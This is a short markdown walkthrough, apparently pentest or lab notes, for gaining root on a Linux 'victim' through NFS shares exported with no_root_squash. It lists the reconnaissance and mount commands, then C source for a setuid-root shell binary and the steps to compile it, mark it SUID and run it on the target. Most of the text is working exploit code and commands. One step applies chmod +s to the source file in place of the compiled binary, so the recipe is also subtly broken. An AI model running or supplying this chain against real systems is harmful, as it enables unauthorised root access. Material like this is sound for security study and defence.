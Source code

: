 ## NFS

### stapsgewijs

#### 1. Getting the overview of all NFS's

```
cat /etc/exports
```

**There needs to be the no_root_squash option in these routes**

*Example:*

```
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)

```

#### 2. Look for mountable shares from the attacking machine to the victim.

```
showmount -e <victimip>
```

![alt text](image-2.png)

#### 3. Create a file and write to the victim system:

```
mkdir /tmp/attack
```

```
mount -o rw 10.10.80.157:/<dirnametowriteto> /tmp/attack
```

#### 4. Create an executable binary in the attackermachine and run in victim machine:

1. 
```
nano nfs.c
```

2. 
```
#include <unistd.h>
#include <stdlib.h>

int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

3. 

```
gcc --static nfs.c -o nfs -w
```

```
chmod +x nfs.c
chmod +s nfs.c
```

4. on victim machine:

```
cd /<sharedfilemount>
./nfs
```